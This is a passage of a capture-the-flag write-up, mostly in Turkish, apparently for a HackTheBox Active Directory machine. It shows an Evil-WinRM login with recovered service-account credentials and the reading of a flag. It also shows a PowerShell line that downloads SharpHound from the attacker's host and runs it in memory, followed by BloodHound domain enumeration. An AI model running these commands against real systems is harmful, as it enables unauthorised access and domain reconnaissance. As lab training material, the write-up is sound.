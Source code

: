 
### WinRM

Bu kimlik bilgilerini Evil-WinRM ile deneyeceğim ve çalışıyor:

```
root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.161 -u svc-alfresco -p s3rvice
                                                         
Info: Starting Evil-WinRM shell v1.7

Info: Establishing connection to remote endpoint
                                                         
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

Buradan user.txt dosyasını alabilirim:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt e5e4e47a************************
```



## Privesc to Administrator

### Enumeration

#### SharpHound

Shell'im ile BloodHound için veri toplamak üzere SharpHound'u çalıştıracağım. Makinemde Bloodhound'un bir kopyası var (yoksa git clone https://github.com/BloodHoundAD/BloodHound.git adresini kullanabilirsiniz). `Ingestors` dizininde bir Python web sunucusu başlatacağım ve ardından mevcut oturumuma yükleyeceğim:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> iex(new-object net.webclient).downloadstring("http://10.10.14.6/SharpHound.ps1")
```

Now I’ll invoke it:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
```

Sonuç bir zip dosyasıdır:

```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> dir

    Directory: C:\Users\svc-alfresco\appdata\local\temp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/18/2019   3:56 AM          12740 20191018035650_BloodHound.zip
-a----       10/18/2019   3:56 AM           8978 Rk9SRVNU.bin   
```

---